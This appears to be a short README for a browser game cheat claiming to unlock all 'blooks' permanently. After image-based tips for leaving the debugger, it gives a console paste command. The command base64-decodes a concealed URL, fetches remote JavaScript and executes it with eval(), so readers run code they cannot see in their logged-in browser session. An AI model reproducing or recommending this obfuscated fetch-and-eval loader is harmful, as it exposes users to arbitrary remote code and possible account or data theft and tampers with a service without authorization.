 # Paused in debugger
if you run one of the codes and get this: ![image](https://user-images.githubusercontent.com/73669084/133943133-af7cc9b8-75ab-496c-a17e-5851b6d7ff63.png) don't worry all you have to do is go to the sources tab: ![image](https://user-images.githubusercontent.com/73669084/133943102-701b0737-b0ca-4ccd-b533-e782c7767447.png) and click this: ![image](https://user-images.githubusercontent.com/73669084/133943169-2897f143-258f-49d8-81e3-181ffe857c8e.png) top right, lastly click this: ![image](https://user-images.githubusercontent.com/73669084/133943122-bc762f73-8522-435a-abb8-905233c95ebe.png) to get out of debugger


# unlockAllBlooksPermanetly.js
Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob("aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vZG0yaG9hNDVxL3Jhdy91cGxvYWQvdjE2Mzg1NjczNzkvdW5sb2NrQWxsUGVybV9iZW5peTMuanM=")).then((res) => res.text().then((t) => eval(t)))
```

